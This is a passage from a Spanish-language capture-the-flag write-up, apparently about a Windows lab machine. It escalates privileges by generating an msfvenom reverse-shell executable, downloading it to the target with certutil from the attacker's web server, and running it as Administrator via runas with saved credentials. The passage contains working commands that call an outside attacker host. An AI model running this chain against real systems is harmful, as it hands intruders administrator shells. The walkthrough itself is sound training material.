 * Otro recurso: [**RunAs.exe** en **Windows**](http://freyes.svetlian.com/RunAs/RunAs.htm).

Pues perfecto, usemos esa propia línea, pero en vez de ejecutar el binario `Access.exe` intentemos ejecutar un payload que contenga una **Reverse Shell**, así obtendríamos una Shell como el usuario **Administrator** (ya que todo lo que ejecutemos se ejecutaría como él), generémoslo con ayuda de [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):

```bash
❱ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4434 -f exe -o averque.exe
```

Entonces, cuando haga la petición hacia el **LHOST** por el **LPORT** generara una **shell_reverse_tcp** (una terminal normalita de toda la vida). Lo guardamos con formato `.exe` y que se llame `averque.exe`.

Pongámonos en escucha tanto en el puerto **4434** como en un servidor web para poder subir el archivo:

```bash
❱ nc -lvp 4434
listening on [any] 4434 ...
```

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora sí, juguemos con **certutil.exe**:

```powershell
C:\Users\security\Videos>certutil.exe -f -urlcache -split http://10.10.14.16:8000/averque.exe c:\Users\security\Videos\averque.exe
```

```powershell
C:\Users\security\Videos>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Videos

06/11/2021  25:25 PM    <DIR>          .
06/11/2021  25:25 PM    <DIR>          ..
06/11/2021  25:25 PM            73,802 averque.exe
               2 File(s)        147,604 bytes
               2 Dir(s)  16,771,743,744 bytes free

C:\Users\security\Videos>
```

Y ahora ejecutamos el binario con la ayuda de **runas** y las credenciales que tenemos (guardadas):

```powershell
C:\Users\security\Videos>runas.exe /user:ACCESS\Administrator /savecred "C:\Users\security\Videos\averque.exe"  
```

Y en nuestro listeneeeeeeeeeeer:
